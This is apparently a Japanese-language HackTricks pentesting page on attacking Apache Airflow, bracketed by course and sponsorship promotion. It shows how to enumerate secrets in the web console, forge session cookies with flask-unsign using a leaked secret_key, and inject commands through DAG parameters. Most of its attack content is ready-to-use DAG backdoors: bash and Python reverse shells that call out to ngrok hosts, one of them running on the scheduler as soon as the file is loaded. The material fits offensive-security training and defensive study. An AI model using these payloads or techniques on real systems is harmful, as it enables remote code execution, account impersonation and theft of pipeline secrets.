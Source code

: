 # Apache Airflow セキュリティ

<details>

{% hint style="success" %}
AWSハッキングの学習と実践:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と実践: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **HackTricks**と**HackTricks Cloud**のgithubリポジトリにPRを提出して**ハッキングトリックを共有**してください。

</details>
{% endhint %}

## 基本情報

[**Apache Airflow**](https://airflow.apache.org) は、**データパイプラインやワークフローのオーケストレーションとスケジューリング**のプラットフォームとして機能します。データパイプラインの文脈における「オーケストレーション」とは、さまざまなソースから発信される複雑なデータワークフローを整理し、調整し、管理するプロセスを意味します。これらのオーケストレーションされたデータパイプラインの主な目的は、処理された消費可能なデータセットを提供することです。これらのデータセットは、ビジネスインテリジェンスツール、データサイエンスおよび機械学習モデルなど、多くのアプリケーションで広く利用されており、これらはすべてビッグデータアプリケーションの機能の基盤となっています。

基本的に、Apache Airflow は、**何かが発生したときにコードの実行をスケジュールする**ことができます。

## ローカル環境

### Docker-Compose

完全な Apache Airflow Docker 環境を起動するために、[**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) から **docker-compose 設定ファイルを使用**することができます（MacOSの場合は、docker VM に少なくとも 6GB のRAMを割り当てる必要があります）。

### Minikube

Apache Airflow を実行する**簡単な方法**の1つは、**minikube**を使用して実行することです。
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Airflowの設定

Airflowは、**機密情報**を設定に保存する可能性があります。また、設定には脆弱な構成があるかもしれません:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

Airflowを攻撃する前に、**権限がどのように機能するか**を理解する必要があります:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## 攻撃

### Webコンソールの列挙

Webコンソールに**アクセス権**がある場合、次の情報の一部またはすべてにアクセスできるかもしれません:

* **変数**（ここにはカスタム機密情報が保存されている可能性があります）
* **接続**（ここにはカスタム機密情報が保存されている可能性があります）
* `http://<airflow>/connection/list/` でアクセス
* [**設定**](./#airflow-configuration)（`secret_key`などの機密情報やパスワードが保存されている可能性があります）
* ユーザーとロールの一覧
* 各DAGの**コード**（興味深い情報が含まれている可能性があります）

### 変数値の取得

Airflowには変数が保存されており、**DAG**がその値に**アクセス**できます。これは他のプラットフォームのシークレットに類似しています。**十分な権限**があれば、GUIでこれらにアクセスできます: `http://<airflow>/variable/list/`。\
Airflowはデフォルトで変数の値をGUIに表示しますが、[**こちら**](https://marclamberti.com/blog/variables-with-apache-airflow/)によると、**GUI**には**アスタリスク**として表示される**変数の値**の**リスト**を設定することが可能です。

![](<../../.gitbook/assets/image (164).png>)

ただし、これらの**値**は**CLI**（DBアクセスが必要）、**任意のDAG**の実行、**API**を介した変数エンドポイントへのアクセス（APIを有効にする必要があります）、そして**GUIそのもの**を介して**取得**することができます。\
GUIからこれらの値にアクセスするには、アクセスしたい**変数**を選択し、**アクション -> エクスポート**をクリックします。\
別の方法は、**隠された値**への**ブルートフォース**を実行し、それを取得するまで**検索フィルタリング**を行うことです:

![](<../../.gitbook/assets/image (152).png>)

### 特権昇格

**`expose_config`**構成が**True**に設定されている場合、**ユーザー**ロール以上のユーザーは**Web上で構成を読み取る**ことができます。この構成には、**`secret_key`**が表示されるため、この有効なユーザーは**自分自身の署名済みクッキーを作成して他のユーザーアカウントになりすます**ことができます。
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### DAG バックドア（Airflow ワーカー内の RCE）

もし **DAG が保存されている場所に書き込みアクセス** があれば、単純に **リバースシェルを送信する DAG** を作成することができます。\
このリバースシェルは **Airflow ワーカーコンテナ内で実行** されることに注意してください：
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### DAG バックドア（Airflow スケジューラーでの RCE）

もし何かを**コードのルートで実行するように設定**した場合、この記述時点では、それを**DAG のフォルダーに配置した数秒後にスケジューラーによって実行**されます。
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### DAGの作成

DAGクラスタ内のマシンを**侵害**することができれば、`dags/`フォルダ内に新しい**DAGスクリプト**を作成し、それらはDAGクラスタ内の他のマシンに**複製されます**。

### DAGコードインジェクション

GUIからDAGを実行すると、それに**引数を渡す**ことができます。\
したがって、DAGが適切にコーディングされていない場合、**コマンドインジェクションの脆弱性**が発生する可能性があります。\
これがこのCVEで起こったことです: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

**DAG内でコマンドインジェクションを探し始めるために知っておくべきこと**は、**パラメータ**がコード**`dag_run.conf.get("param_name")`**で**アクセス**されるということです。

さらに、**変数**でも同じ脆弱性が発生する可能性があります（特権があればGUIで変数の値を**制御**できます）。変数は以下で**アクセス**されます:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
```markdown
例えば、bashコマンド内で使用されている場合、コマンドインジェクションを実行することができます。

<details>

{% hint style="success" %}
AWSハッキングの学習と実践：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と実践：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* ハッキングトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
{% endhint %}
```
